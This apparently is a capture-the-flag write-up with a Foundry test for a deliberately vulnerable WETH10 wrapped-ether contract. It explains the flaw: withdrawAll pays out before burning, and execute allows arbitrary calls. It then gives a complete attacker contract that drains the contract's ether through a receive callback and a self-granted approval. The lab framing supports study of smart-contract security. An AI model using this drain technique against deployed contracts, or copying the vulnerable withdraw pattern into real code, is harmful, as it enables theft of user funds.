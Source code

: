 ## WETH10 attack

The WETH10 contract is a normal ERC20 token where tokens can be minted via depositing ether to the contract.  
The vulnarability is in the `withdrawAll` function as this function first transfers the current ERC20 balance of the caller to him and after the transfer only the current holding of the caller is burned.

We can just transfer away the ERC20 token in the callback to an address / contract we control or were we have an unlimited amount approved to transfer.

To not deploy another contract, we use the `execute` function to give us unlimited approved transfer amount for the ERC20 token and just drain the WETH10 contract.

1. `aprove` unlimited amount via `execute` for our attacker contract
2. deposit 1 ether via `deposit` to WETH10 to get the same amount of ERC20 tokens
3. call `withdrawAll` on WETH10, use the receive function to transfer the current ERC20 tokens away
4. repeat step 2 + 3 for 10 times
5. transfer the ERC20 tokens back to us from the approved address
6. withdraw all the tokens and send them back to our owner "bob"

## Test
forge test --match-contract=Weth10Test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

import {ERC20} from "openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "openzeppelin/contracts/utils/Address.sol";

contract Weth10Test is Test {
    WETH10 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH10();
        bob = makeAddr("bob");          

        vm.deal(address(weth), 10 ether);
        vm.deal(address(bob), 1 ether);
    }

    function testHack() public {
        assertEq(address(weth).balance, 10 ether, "weth contract should have 10 ether");


        vm.startPrank(bob);

        // deploy attacker contract
        AttackerContract attack = new AttackerContract(weth);
        // drain
        attack.drainTheWeth{value: 1 ether}();

        vm.stopPrank();
        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(bob.balance, 11 ether, "player should end with 11 ether");
    }
}

contract AttackerContract {

    WETH10 weth;
    address owner;
    constructor(WETH10 _weth10) {
        weth = _weth10;
        owner = msg.sender;
    }

    function drainTheWeth() external payable {

        // first we approve this contract for unlimited token transferes
        weth.execute(address(weth), 0 ether, abi.encodeWithSelector(ERC20.approve.selector, address(this), type(uint256).max));

        // activate fallback function
        transferAway = true;

        // empty weth10 contract
        for(uint256 i; i < 10; i++) {
            // we mint 1 ether
            weth.deposit{value: 1 ether}();

            // we witthdraw the ether and use the receive function to transfer our current token balance away so nothing will be burned
            weth.withdrawAll();   
        }           
        
        // as we approved unlimited we can now take all the balance back to burn
        weth.transferFrom(address(weth), address(this), 10 ether);
        
        // stop fallback function
        transferAway = false;
        weth.withdrawAll();

        // transfer all eth to bob
        (bool success, bytes memory result) = owner.call{value: 11 ether}("");
        require(success, string(result));
    }

    bool transferAway;
    receive() external payable {
      if (transferAway) {
          // if activated, transfer our current erc20 amount away
          weth.transfer(address(weth), 1 ether);
      }        
    }
}

// The Messi Wrapped Ether
contract WETH10 is ERC20("Messi Wrapped Ether", "WETH10"), ReentrancyGuard {
    receive() external payable {
        deposit();
    }

    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }

    function deposit() public payable nonReentrant {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) external nonReentrant {
        Address.sendValue(payable(msg.sender), wad);
        _burn(msg.sender, wad);
    }

    function withdrawAll() external nonReentrant {
        Address.sendValue(payable(msg.sender), balanceOf(msg.sender));
        _burnAll();
    }

    /// @notice Request a flash loan in ETH
    function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
        uint256 prevBalance = address(this).balance;
        Address.functionCallWithValue(receiver, data, amount);

        require(address(this).balance >= prevBalance, "flash loan not returned");
    }
}
```